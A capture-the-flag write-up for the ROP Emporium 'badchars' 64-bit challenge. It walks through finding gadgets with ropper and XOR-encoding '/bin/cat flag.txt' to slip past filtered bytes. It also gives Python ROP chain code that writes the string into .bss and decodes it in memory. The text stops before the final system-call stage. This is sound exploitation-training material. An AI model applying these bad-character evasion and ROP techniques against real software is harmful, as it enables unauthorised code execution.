 # badchars


## 32bit


## 64bit

Like always check the buffer we know it is 40bytes but its always good to be safe.

Running it we see some pretty bad news
```
badchars are: b i c / <space> f n s
```
Which eliminates `/bin` and other goodies from our input and any opcodes that happen to have the same bytes as the above chars

Converting them to hex so later we can give the bad bytes to `ropper` so it knows to avoid them
```
0x62, 0x69, 0x63, 0x2f, 0x20, 0x66, 0x6e, 0x73
```

### Avoiding Bad Chars


Luckily ROPEmporium was nice and left a hint in the symbol table of the ELF

![hint](imgs/64bit/usefulGadget.png)

If they weren't that nice we could have also found that gadget and other useful gadgets by using `ropper` which is covered in **Finding Gadgets** section below

So now that we know we have a nice XOR gadget to be used we need to XOR the badchars in `/bin/cat flag.txt` with a key in this instance a single letter because of the useful gadget:
```
xor byte ptr [r15], r14b; ret;
```
This XORs a single byte in r15 with the low/first byte of r14. The XOR key is just be a single char

Using [xor.py](xor.py) a quick and dirty script made to help find a key that didn't produce any badchars

The key doesn't have to be the same for all of them. I just did for convience.
And only XOR the bad chars and not the whole string or later the ROPchain will have too many operations

```
"/bin/cat flag.txt" XOR "D" = "k&-*k'atd"lag.txt"
```

Now that we have disguise our favorite string we can move on to creating the payload

### Creating the Payload

The payload is made of 3 parts
1) Loading the string to memory
2) Modifying the string in memory
3) Loading the string into the system call

#### Finding Gadgets

`ropper` is a super handy gadget finder that gef uses to locate ROP gadgets. It's general usage is as follows
- A 'gadget' in ROP terms is a string of asm operations followed by a ret call so it can be chained or returned into the next part of the ropchain
- `--search` uses a regex to find your query in the asm's opcodes ex: `--search "pop rdi"` will return gadgets that contain `pop rdi`
- `-b` is used to specify bad bytes, which is critical for this challenge

```
ropper --search $QUERY -b 6269632f20666e73 #-b is bad bytes and the number is all the bad bytes above just lumped together
```

#### Loading the String

Searching by `mov qword` we get mov the value of r12 into the memory address stored in r13

```
ropper --search "mov qword" -b 6269632f20666e73

0x0000000000400b34: mov qword ptr [r13], r12; ret;
```

Now we need to load data into r12 and r13

Searching for `pop r12` we get:

```
ropper --search "pop r12" -b 6269632f20666e73

0x0000000000400b3b: pop r12; pop r13; ret;
```

We also need to find somewhere to place the string into memory. We can find this by looking at the ELF's sections. Using `rabin2` from radare2
```
rabin2 -S badchars
```
![data section](imgs/64bit/data.png)

```
data_start = 0x601080 # pop_r12_r13 = p64(0x400b3b)
mov_r13_r12 = p64(0x400b34)
load_str_1 = pop_r12_r13 + bin_cat + p64(data_start) + mov_r13_r12
load_str_2 = pop_r12_r13 + flag_txt + p64(data_start+0x8) + mov_r13_r12
load_str_3 = pop_r12_r13 + last_bit + p64(data_start+0x10) + mov_r13_r12
load_str = load_str_1 + load_str_2 + load_str_3
```
I'm using .bss(0x601080) instead of .data(0x601070) because the third char for the string would have landed at 0x601073 which ends in a bad char 0x73 aka 's'

You could off set it by one and have the start be 0x601071 so then the third char is 0x601074 instead of 0x601073 it really doesn't matter.

But throught this whole challenge be aware of the bad chars and if something isn't working but it definately should then it's probably bad chars.

Test and get this part working before moving on.

![loaded string](imgs/64bit/loadedString.png)

#### Modifing the String

Now that the string is loaded into memory we can modify it back to it's original state

We'll use that `usefulGadget` we found from before
```
xor byte ptr [r15], r14b; ret;
```

But we need to find a way to load data into r15 and r14
```
ropper --search "pop r14" -b 6269632f20666e73

0x0000000000400b40: pop r14; pop r15; ret;
```

Now we just need to make a ropchain with the previously used key to xor the string back to `/bin/cat flag.txt`

CODE:
```
key = "D".ljust(8,"\x00").encode() #left justfied so it becomes 8 bytes in length "D\x00\x00\x00\x00\x00\x00\x00"
pop_r14_r15 = p64(0x400b40)
xor_r15_r14b = p64(0x400b30)

# 'D' ^ '/'
xor_str_0 = pop_r14_r15 + key + p64(data_start) + xor_r15_r14b
# 'D' ^ 'b'
xor_str_1 = pop_r14_r15 + key + p64(data_start+0x1) + xor_r15_r14b
# 'D' ^ 'i'
xor_str_2 = pop_r14_r15 + key + p64(data_start+0x2) + xor_r15_r14b
# 'D' ^ 'n'
xor_str_3 = pop_r14_r15 + key + p64(data_start+0x3) + xor_r15_r14b
# 'D' ^ '/'
xor_str_4 = pop_r14_r15 + key + p64(data_start+0x4) + xor_r15_r14b
# 'D' ^ 'c'
xor_str_5 = pop_r14_r15 + key + p64(data_start+0x5) + xor_r15_r14b
xor_cat = xor_str_0 + xor_str_1 + xor_str_2 + xor_str_3 + xor_str_4 + xor_str_5

# 'D' ^ ' '
xor_str_8 = pop_r14_r15 + key + p64(data_start+0x8) + xor_r15_r14b
# 'D' ^ 'f'
xor_str_9 = pop_r14_r15 + key + p64(data_start+0x9) + xor_r15_r14b
xor_flag = xor_str_8 + xor_str_9

xor_str = xor_cat + xor_flag
```

Once again run and test this stage of the exploit before moving on. The less to debug is always better.

![modified string](imgs/64bit/modifiedString.png)
